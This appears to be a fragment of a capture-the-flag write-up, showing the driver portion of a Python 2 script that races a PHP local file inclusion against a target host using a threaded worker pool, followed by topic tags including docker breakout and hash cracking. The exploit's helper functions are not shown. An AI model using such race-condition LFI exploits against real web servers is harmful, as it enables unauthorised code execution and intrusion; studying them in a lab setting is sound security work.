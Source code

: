 ```python
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with poolsz %d: %s" % (sys.argv[3], e)
        sys.exit(1)

    print "Getting initial offset...",  
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()

    maxattempts = 1000
    e = threading.Event()
    l = threading.Lock()

    print "Spawning worker pool (%d)..." % poolsz
    sys.stdout.flush()

    tp = []
    for i in range(0,poolsz):
        tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))

    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
                if counter >= maxattempts:
                    break
        print
        if e.is_set():
            print "Woot!  \m/"
        else:
            print ":("
    except KeyboardInterrupt:
        print "\nTelling threads to shutdown..."
        e.set()
    
    print "Shuttin' down..."
    for t in tp:
        t.join()

if __name__=="__main__":
    main()
```

___
#local-file-inclusion #race-condition #abusing-capabilities #docker-breakout #web-enumeration 
#hash-cracking #abusing-special-user-groups 
___
